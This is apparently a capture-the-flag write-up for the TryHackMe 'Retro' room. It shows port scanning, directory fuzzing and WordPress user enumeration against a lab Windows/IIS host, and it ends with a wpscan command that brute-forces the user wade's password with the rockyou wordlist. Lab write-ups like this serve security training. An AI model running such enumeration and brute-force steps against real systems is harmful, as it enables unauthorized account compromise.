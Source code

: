 # Retro

![image](https://user-images.githubusercontent.com/5285547/131119489-6feda4b6-44b3-41aa-b3fa-bcb22ece0b84.png)

Room link: https://tryhackme.com/room/retro

Room IP: 10.10.22.148  
*\* for me your's will be different*

## Enumeration


* Nmap 

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

* -sCV

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-27T11:32:23+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-26T11:19:26
| Not valid after:  2022-02-25T11:19:26
| MD5:   9269 09a9 b05b 293f 4a56 f70c 66b0 c167
|_SHA-1: 1c04 1ffc e75d 5f9f f772 12eb 5fcc c808 1b53 a3ed
|_ssl-date: 2021-08-27T11:32:23+00:00; +1s from scanner time.
```
---

ffuf

```
ffuf -u http://10.10.22.148/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -mc all -fc 404

retro                   [Status: 301, Size: 149, Words: 9, Lines: 2]
```

Scanning the directories shows /retro endpoint

---

Port 80

http://10.10.22.148/retro

The page shows us lots of posts from a guy called Wade about classic gaming. 
I noticed the site urls are simular to how wordpress are laid out. There is a login link at the bottom that resolves to a wordpress login.  
This confirms my suspicion, time to get wp-scan out. 

```
wpscan --url http://10.10.22.148/retro/

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 
[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
```

We can see this is an IIS server (as confirmed in the nmap scan) and wade is the user.  
Let's try to brute his login for wordpress using wpscan

```
wpscan --url http://10.10.22.148/retro/ -U wade -P /usr/share/wordlists/rockyou.txt
```


